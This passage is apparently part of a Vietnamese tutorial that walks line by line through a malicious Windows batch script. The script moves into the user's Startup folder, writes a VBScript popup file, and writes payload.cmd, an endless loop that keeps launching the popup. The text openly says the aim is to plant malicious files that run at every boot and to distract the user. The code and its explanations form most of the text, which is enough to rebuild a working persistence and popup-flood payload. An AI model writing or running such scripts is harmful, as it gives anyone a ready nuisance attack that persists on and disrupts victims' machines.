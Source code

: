 
#### **Dòng 12-16: Chuyển Đến Thư Mục Startup**
```cmd
cd /d "C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
if %errorlevel% neq 0 (
    echo Khong the truy cap thu muc Startup!
    pause
    exit /b
)
```
- **Ý nghĩa**: Chuyển thư mục làm việc đến thư mục Startup của người dùng hiện tại.
- **Chi tiết**:
  - `cd /d "C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`:
    - `cd`: Lệnh thay đổi thư mục.
    - `/d`: Đảm bảo thay đổi cả ổ đĩa (nếu cần) và thư mục cùng lúc.
    - `"C:\Users\%username%\..."`: Đường dẫn đến thư mục Startup.
    - `%username%`: Biến môi trường, tự động thay thế bằng tên người dùng hiện tại (ví dụ: `John`).
    - Thư mục Startup là nơi các chương trình sẽ tự động chạy khi hệ thống khởi động.
  - `if %errorlevel% neq 0`:
    - Kiểm tra nếu lệnh `cd` thất bại (mã lỗi không bằng 0).
  - `echo Khong the truy cap thu muc Startup!`:
    - Hiển thị thông báo lỗi nếu không thể truy cập thư mục.
  - `pause`:
    - Tạm dừng để người dùng đọc thông báo.
  - `exit /b`:
    - Thoát script nếu không thể truy cập thư mục.
- **Mục đích**: Đặt các tệp độc hại vào thư mục Startup để chúng tự động chạy khi hệ thống khởi động.

---

#### **Dòng 18: Tạo Tệp `popup.vbs`**
```cmd
echo MsgBox "LINE 1" ^& vbCrLf ^& "LINE 2", 262192, "TITLE" > popup.vbs
```
- **Ý nghĩa**: Tạo một tệp VBScript (`popup.vbs`) để hiển thị thông báo.
- **Chi tiết**:
  - `echo MsgBox "LINE 1" ^& vbCrLf ^& "LINE 2", 262192, "TITLE"`:
    - `echo`: Lệnh in nội dung ra màn hình hoặc tệp.
    - `MsgBox`: Hàm trong VBScript để hiển thị hộp thoại thông báo.
    - `"LINE 1" ^& vbCrLf ^& "LINE 2"`: Nội dung thông báo gồm hai dòng, với `vbCrLf` là ký tự xuống dòng trong VBScript.
    - `^&`: Thoát ký tự `&` để tránh lỗi cú pháp trong batch script.
    - `262192`: Mã biểu thị kiểu hộp thoại (trong trường hợp này là thông báo hệ thống với nút OK).
    - `"TITLE"`: Tiêu đề của hộp thoại.
  - `> popup.vbs`:
    - Chuyển hướng đầu ra của lệnh `echo` để ghi nội dung vào tệp `popup.vbs`.
- **Mục đích**: Tạo một tệp VBScript để hiển thị thông báo gây phân tâm cho người dùng.

---

#### **Dòng 20-25: Tạo Tệp `payload.cmd`**
```cmd
(
    echo @echo off
    echo :loop
    echo start /min cmd /c "popup.vbs"
    echo goto loop
) > payload.cmd
```
- **Ý nghĩa**: Tạo một tệp batch script (`payload.cmd`) để chạy vòng lặp hiển thị thông báo.
- **Chi tiết**:
  - `(` và `)`: Nhóm nhiều lệnh `echo` lại với nhau.
  - `echo @echo off`:
    - Ghi dòng `@echo off` vào `payload.cmd`, tắt hiển thị lệnh khi `payload.cmd` chạy.